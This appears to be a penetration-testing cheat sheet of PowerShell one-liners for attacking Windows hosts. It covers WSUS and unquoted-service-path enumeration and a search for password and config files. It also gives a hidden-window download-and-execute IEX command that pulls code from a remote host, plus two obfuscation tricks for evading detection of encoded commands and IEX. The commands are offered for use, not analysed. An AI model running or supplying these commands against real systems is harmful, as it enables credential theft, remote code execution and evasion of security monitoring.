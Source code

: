 Enumerate the use of the Windows Server Update Services (WSUS) 
```
	Get-ItemProperty -Path Registry::"HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate" |Select-Object -ExpandProperty WUServer

	Get-ItemProperty -Path Registry::"HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate" |Select-Object -ExpandProperty WUStatusServer

	Get-ItemProperty -Path Registry::"HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU" |Select-Object -ExpandProperty UseWUServer

	reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate
```


Get unquoted service paths
```
	gwmi win32_service |Select pathname | Where {($_.pathname -ne $null)} | Where {-not $_.pathname.StartsWith("`"")} | Where {($_.pathname.Substring(0, $_.pathname.IndexOf(".") +4)) -match ".* .*"}
```

### Find-Files (custom)
```
	Find-Files -searchBase "i:\" -searchTerms "*web.xml*,*web.config*,*password*,*tomcat-users.xml*" -LogPath "C:\Users\username\AppData\Local\Temp"
```

### Get-Enumeration (custom)

Run Local and Domain enumeration functions on the local host.
```	
	Get-Enumeration -Path . -Local -Domain
```

### Download and execute IEX
```
    powershell -nop -w hidden -c "iex (New-Object Net.WebClient).DownloadString('http://192.168.1.1:80/file')" 
```

### EncodedCommand and IEX detection bypass

Author: Dave Kennedy
Source: https://www.trustedsec.com/blog/circumventing-encodedcommand-detection-powershell/

Avoid detection of -enc
```
	powershell -window hidden -C "set-variable -name "C" -value "-"; set-variable -name "s" -value "e"; set-variable -name "q" -value "c"; set-variable -name "P" -value ((get-variable C).value.toString()+(get-variable s).value.toString()+(get-variable q).value.toString()) ; powershell (get-variable P).value.toString() <b64encodedcommandhere>"
```

Avoid detection of IEX
```
	powershell -window hidden -C "set-variable -name "LB" -value "I"; set-variable -name "I" -value "E"; set-variable -name "V" -value "X"; set-variable -name "wP" -value ((get-variable LB).value.toString()+(get-variable I).value.toString()+(get-variable V).value.toString()) ; powershell (get-variable wP).value.toString() ('<YOURINVOKEEXPRESSIONSTUFFHERE>')"
```
